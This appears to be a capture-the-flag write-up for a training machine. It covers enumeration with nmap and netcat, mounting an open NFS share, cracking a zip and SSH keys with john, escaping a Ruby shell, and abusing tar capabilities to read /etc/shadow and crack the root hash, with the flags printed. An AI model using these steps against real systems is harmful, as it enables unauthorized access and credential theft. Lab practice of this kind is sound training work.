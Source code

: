 > The Server From Hell

**export IP=10.10.59.207**

Start at port 1337 and enumerate your way.

nc $IP 1337

```
Welcome traveller, to the beginning of your journey
To begin, find the trollface
Legend says he's hiding in the first 100 ports
Try printing the banners from the ports
```

nmap -sV --script=banner -vv -p 1-100 $IP

And after looking at port 21 we got 

```
21/tcp  open  ftp?         syn-ack
| banner: 550 12345 0f7000f800770008777 go to port 12345 80008f7f700880cf
|_00
| fingerprint-strings: 
|   NULL: 
|_    550 12345 0f7000f800770008777 go to port 12345 80008f7f700880cf00
```

nc $IP 12345

```
NFS shares are cool, especially when they are misconfigured
It's on the standard port, no need for another scan
```

showmount -e $IP

```
Export list for 10.10.197.116:
/home/nfs *
```

Let's create a mount point and mount the share.

mkdir /dev/shm/unknown
mount -t nfs $IP:/home/nfs /dev/shm/unknown

And looking at that location we got a password protected `backup.zip`.

## Cracking using john

zip2john backup.zip > backuphash
john backuphash --wordlist=/rockyou.txt

And we got the password `zxcvbnm` And unzipping we got 5 files.

# Flag.txt

```
thm{h0p3_y0u_l1k3d_th3_f1r3w4ll}
````

In hints.txt file we are said to look at ports `2500-4500`.

for i in {2500..4500} ;do ssh -i id_rsa hades@$IP -p $i; done

We got a hit at port 3333. And we are in as hades. But it is an interactive ruby shell.

`system('/bin/bash')` And we have a stable shell!!

And we got our user.txt.

# user.txt

```
thm{sh3ll_3c4p3_15_v3ry_1337}
```

# Privilege Escalation

## Hint: getcap

Let's search for the capabilities.

getcap -r / 2>/dev/null

```
/usr/bin/mtr-packet = cap_net_raw+ep
/bin/tar = cap_dac_read_search+ep
```

/bin/tar -cvf root.tar /etc/shadow
tar -xvf root.tar
cat /etc/shadow | grep root

And we can crack the hash using john.

john hash --wordlist=/usr/share/wordlists/rockyou.txt

```
trustno1         (root)
```

# root.txt

```
thm{w0w_n1c3_3sc4l4t10n}
```
